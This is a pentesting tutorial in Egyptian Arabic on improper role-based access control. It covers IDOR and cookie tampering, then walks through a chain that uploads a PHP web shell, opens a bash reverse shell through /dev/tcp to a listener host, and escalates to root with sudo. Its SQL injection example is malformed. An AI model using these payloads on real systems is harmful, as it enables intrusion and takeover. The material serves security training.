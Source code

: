 # **1. إيه هو Improper Role-Based Access Control (RBAC)؟**

## **الشرح العميق:**
ال"Role-Based Access Control" (RBAC) هو نظام تحكم في الوصول بيعتمد على "الأدوار" (Roles) اللي بيتم تعيينها للمستخدمين في تطبيق أو نظام. يعني كل مستخدم عنده دور معين (زي User، Editor، Admin)، والدور ده بيحدد إيه اللي يقدر يعمله وإيه اللي مش مسموح بيه. لما نقول "Improper RBAC"، يعني إن النظام ده معمول بشكل غلط أو ضعيف، فالمستخدم يقدر يعمل حاجات خارج دوره، زي إن مستخدم عادي يشوف بيانات الأدمن أو يعدل حاجة المفروض للأدمن بس. ده بيحصل بسبب:
- سوء تصميم الصلاحيات.
- عدم التحقق من دور المستخدم قبل تنفيذ أمر.
- إعطاء صلاحيات زيادة عن اللزوم.

## **طرق اكتشافها :**
### 1. **فحص الوصول في الويب:**
   - لو موقع فيه حساب User عادي:
     - جرب رابط زي: `http://target.com/api/users/123`.
     - عدل الـ ID لـ `124` أو `1` -> لو فتح حساب حد تاني، يبقى RBAC ضعيف.

### 2. **اختبار الأدوار:**
   - لو عندك حساب User، جرب صفحة Admin:
     - ال`http://target.com/admin/dashboard` -> لو فتحت، يعني مافيش تحقق من الدور.

### 3. **فحص الـ API:**
   - استخدم Burp Suite:
     - ال Intercept طلب زي `GET /api/settings` -> لو رجع بيانات لمستخدم عادي، يبقى Improper RBAC.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط ناس في أوض مختلفة في البيت، بس سايب الأبواب مفتوحة، فالكل يقدر يخش أي حتة! Improper RBAC يعني كل واحد يعمل اللي عايزه من غير ما حد يقوله لأ."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما RBAC يكون ضعيف أو مضبوط غلط، بيفتح الباب للمهاجم يعمل حاجات خطيرة:
- **تصعيد أفقي (Horizontal):** مستخدم عادي يشوف أو يعدل بيانات مستخدم تاني.
- **تصعيد عمودي (Vertical):** مستخدم عادي يوصل لصلاحيات Admin أو يتحكم في النظام.
- **سرقة بيانات:** ياخد معلومات المفروض تكون لأدوار أعلى بس.
- **تخريب:** يغير إعدادات أو يمسح حاجات مهمة.

في الـ Pentesting، الثغرة دي ذهب لأنها بتخليك تتخطى حدود دورك وتصير الكبير بدون ما تحتاج مجهود كبير.

## طرق استغلالها لو لقتها:
### 1. **استغلال الـ API:**
   - لو لقيت طلب زي `POST /api/update_user` بتاعك كـ User:
     - غير الـ Payload في Burp:
       -ال `"user_id": 123` لـ `"user_id": 1` -> لو نجح، يبقى RBAC مكسور.

### 2. **تجاوز التحقق:**
   - لو موقع بيستخدم Cookie زي `role=user`:
     - غيرها في المتصفح لـ `role=admin` -> لو فتحت صفحة Admin، يبقى ضعيف.

### 3. **SQL Injection مع RBAC:**
   - ء`http://target.com/profile?id=123; SELECT * FROM users WHERE role='admin' --` -> لو جاب بيانات Admin، يبقى مافيش حماية.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون حاطط حارس بس نايم، أي حد يقدر يعدي وياخد اللي عايزه! المهاجم يلاقي الثغرة دي، يبقى الباشا بتاع الموقع على طول."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الضعف في RBAC عشان تتجاوز حدود دورك وتاخد وصول أعلى أو تتحكم في حاجات ممنوعة.
- **مثال واقعي:** لو مستخدم عادي قدر يعدل بيانات الأدمن بتغيير الـ ID في الرابط، يبقى RBAC مضروب.

## **خلاصة بالعامية المصرية:**
"لما تلاقي RBAC ضعيف، زي ما تكون لقيت خرم في الحيطة، تدخل منه وتبقى الكبير بتاع اللعبة من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: إنشاء حساب User**
- لو الموقع بيسمح، سجل حساب عادي:
  - Username: `testuser` - Password: `test123`.
- سجل دخول وشوف حدودك.

## **الخطوة 3: اختبار RBAC**
- جرب تغير الـ ID:
  - `http://192.168.1.10/profile?id=100` (حسابك).
  - `http://192.168.1.10/profile?id=1` -> لو فتح حساب الأدمن، يبقى RBAC ضعيف.
- جرب صفحات Admin:
  - `http://192.168.1.10/admin` -> لو فتحت بدون تحقق، يبقى مكشوف.

## **الخطوة 4: استغلال أفقي**
- لو لقيت API:
  - Intercept بـ Burp: `GET /api/users/100`.
  - غيرها لـ `GET /api/users/1` -> لو جاب بيانات الأدمن، سجلها.

## **الخطوة 5: استغلال عمودي**
- لو لقيت Cookie زي `role=user`:
  - غيرها في المتصفح لـ `role=admin`.
  - افتح: `http://192.168.1.10/admin/settings` -> لو نجحت:
    - ابحث عن Upload -> ارفع `shell.php`: `<?php system($_GET['cmd']); ?>`.
    - `http://192.168.1.10/admin/shell.php?cmd=id` -> `www-data`.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 7: توثيق**
- سجل كل اللي وصلتله (زي بيانات الأدمن أو Shell).
- قدم تقرير يوضح إزاي RBAC الضعيف فتح الباب للتحكم.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت بيت الأدوار فيه مفتوحة، خشيت من أوضة صغيرة، لعبته في الكبيرة، وطلعت الكبير بتاع الحتة! RBAC لما يكون ضعيف، يبقى طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Improper Role-Based Access Control هي ثغرة كبيرة لأنها بتخلّي المستخدم يتجاوز دوره ويوصل لأماكن أو صلاحيات المفروض ممنوعة. في الـ Pentesting، دور على الضعف ده في الروابط، الـ API، أو الكوكيز، استغله عشان تاخد بيانات أو Shell، ووري العميل إن نظامه زي لعبة مفتوحة للكل! بالطريقة دي، تبقى البطل بتاع الساحة بكل سهولة!